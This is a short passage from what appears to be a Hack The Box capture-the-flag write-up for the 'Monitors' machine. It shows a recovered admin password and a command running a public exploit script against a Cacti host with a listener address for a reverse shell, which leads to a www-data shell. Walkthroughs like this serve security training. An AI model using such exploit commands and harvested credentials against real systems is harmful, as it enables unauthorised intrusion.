 ![17](/assets/images/htb/hard/monitor/17.png)

username: admin
password: BestAdministrator@2020!
let's use this.....
and run our script.....
```
python3 49810.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.16.88 --lport 4444
```

# www-data

script run successfully.....